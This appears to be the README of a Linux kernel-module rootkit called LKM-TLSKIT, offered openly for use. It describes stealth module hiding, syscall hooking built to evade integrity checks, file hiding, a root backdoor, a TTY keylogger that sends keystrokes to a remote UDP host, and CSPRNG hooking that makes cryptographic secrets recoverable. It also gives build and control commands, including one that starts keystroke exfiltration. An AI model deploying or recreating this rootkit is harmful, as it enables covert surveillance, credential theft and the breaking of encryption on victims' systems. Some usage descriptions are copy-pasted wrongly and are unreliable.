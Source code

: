 # LKM-TLSKIT

A Linux rootkit, based on a Linux Kernel Module.

> This rootkit has been developed on Linux kernel version 4.19.0-12-amd64
on Debian 10.6

## Features

* **Module hiding:** 

The kernel module is hidden from lsmod and /sys/module. This is done by remapping
the module's core layout such that the memory of the rootkit is unlinked from the kernel
module. It allows unloading the kernel module and destroying all the corresponding files,
while keeping the rootkit alive. This approach seems to be more stealthy than just hiding
the module via syscall hooking and removing the module from internal kernel lists.
     
* **SYSCALL hooking:**

The rootkit supports syscall hooking by redirecting syscalls from the user-space to 
a faked syscall table. In this ways, integrity checks on the syscall table will pass, since
the original syscall table will never be modified. In contrast, integrity checks on the
code itself will detect the rootkit, but due to runtime-patching of the kernel, 
this is more difficult to achieve.

The technique uses pattern matching on assembly code, starting at the address where the 
LSTAR MSR register points to (either entry_SYSCALL_64 or entry_SYSCALL_64_trampoline).

When the pattern matching fails (e.g. when different compiler versions are used that 
implements different optimizations) we will simply override the syscall table instead,
which is less stealthy and allows rootkit detection via syscall table integrity checks. 

* **File hiding:**

Files that contains the "user.rootkit" extended attribute are hidden from the user space
by hooking the getdents(64) syscall.

Extended attributes can be set via the *setfattr* tool.

* **Privilege Escalation via Backdoor:**

Execute an arbitrary program as root.

* **Keylogger:**

A keylogger that hooks the tty->read function to receive all the input data from TTY/PTY
pseudoterminals, which is used for the user interface, ssh, docker, ...
The data will then be sent to an UDP server, control characters will be parsed to a specific string format.

* **CSPRNG hooking:**

The rootkit hooks the cryptographic secure pseudo random number generator (CSPRNG) from the
operating system and returns predictable random values, which allows the recalculation
of secrets generated by cryptographic libraries from the userspace (e.g. openssl). 
In case of Linux, this is */dev/random*, */dev/urandom* and the *getrandom()* syscall.

## Build dependencies

`apt-get install linux-headers-$(uname -r)`

## Build

A Makefile is provided for building the kernel module rootkit and its user-space
control program:

``make``

## Installation

The installation of the tlskit is done via the user-space control program.
See ***load*** and ***unload*** in the **Usage** section.

## Usage
The rootkit can be controlled via a user-space control program. 

The rootkit control program supports the following commands:

* ***Ping:*** 

    Check if the rootkit is currently alive: 

    ``./rkctl ping``

* ***Load:***

    Load the kernel module and install the rootkit: 

    ``./rkctl load <module.ko>``

* ***Unload:***

    Unload the rootkit: 

    ``./rkctl unload``
    
* ***Backdoor:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl backdoor <program>``
    
* ***Start Keylogger:***   
 
    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_start <ip> <port>``

* ***Stop Keylogger:***

    Run an arbitrary program as root (e.g. root shell via /bin/sh): 

    ``./rkctl keylog_stop``